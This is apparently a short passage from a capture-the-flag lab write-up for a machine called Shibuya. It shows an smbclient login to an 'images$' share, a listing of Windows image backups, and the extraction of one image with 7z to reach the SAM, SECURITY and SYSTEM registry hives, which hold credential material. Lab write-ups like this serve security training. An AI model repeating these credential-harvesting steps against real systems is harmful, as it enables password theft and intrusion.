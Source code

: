 ```
➜  Shibuya smbclient \\\\shibuya.vl\\images$ -U "svc_autojoin"
Password for [WORKGROUP\svc_autojoin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 16 06:24:08 2025
  ..                                DHS        0  Wed Feb 19 07:59:37 2025
  AWSJPWK0222-01.wim                  A  8264070  Sun Feb 16 06:23:41 2025
  AWSJPWK0222-02.wim                  A 50660968  Sun Feb 16 06:23:45 2025
  AWSJPWK0222-03.wim                  A 32065850  Sun Feb 16 06:23:47 2025
  vss-meta.cab                        A   365686  Sun Feb 16 06:22:37 2025

                6126847 blocks of size 4096. 1235127 blocks available
smb: \> 

```
that was really interesting we have SAM,SYSTEM,SECURITY files there.

```
➜  cab 7z x AWSJPWK0222-02.wim
➜  AWSJPWK0222-02 ls
[SNIP]
netlogon.ftl
RegBack
SAM
[SNIP]
SECURITY
[SNIP]
SYSTEM
[SNIP]
TxR
```
![alt text](../assets/images/Screenshot_2025-02-21_18_39_08.png)
